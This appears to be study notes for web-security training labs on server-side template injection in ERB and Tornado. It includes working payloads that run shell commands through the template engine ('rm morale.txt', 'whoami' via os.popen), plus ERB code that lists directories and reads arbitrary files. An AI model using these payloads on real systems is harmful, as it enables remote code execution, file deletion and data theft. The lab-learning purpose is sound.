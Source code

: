 ### Lab: Basic server-side template injection

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

`/?message=<%25%3d+exec('rm+morale.txt')+%25>`

### Lab: Basic server-side template injection (code context)
To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

These are the useful bit from the documentation to create a SSTI exploit for tornado.

`{{   }}` - Anything coming between `{{` and `}}` are evaluated and send back to the output.

 Example:

`{{ 2*2 }}` -> `4`


`{% import *module* %}` - Allows you to import python modules.

 Example:

`{% import subprocess %}` 

That's all we need to craft an exploit code.

`{% import os %}{{ os.popen("whoami").read() }}`

`blog-post-author-display=user.first_name}}{%25+import+os+%25}{{+os.popen("rm+morale.txt").read()}}&csrf=3ECtMWCwjqFgZwdh4qdq8PlLziKze049`

## Read about the security implications

In addition to providing the fundamentals of how to create and use templates, the documentation may also provide some sort of "Security" section. The name of this section will vary, but it will usually outline all the potentially dangerous things that people should avoid doing with the template. This can be an invaluable resource, even acting as a kind of cheat sheet for which behaviors you should look for during auditing, as well as how to exploit them.

Even if there is no dedicated "Security" section, if a particular built-in object or function can pose a security risk, there is almost always a warning of some kind in the documentation. The warning may not provide much detail, but at the very least it should flag this particular built-in as something to investigate.

For example, in ERB, the documentation reveals that you can list all directories and then read arbitrary files as follows:
```
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```

### Lab: Server-side template injection using documentation
 To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.
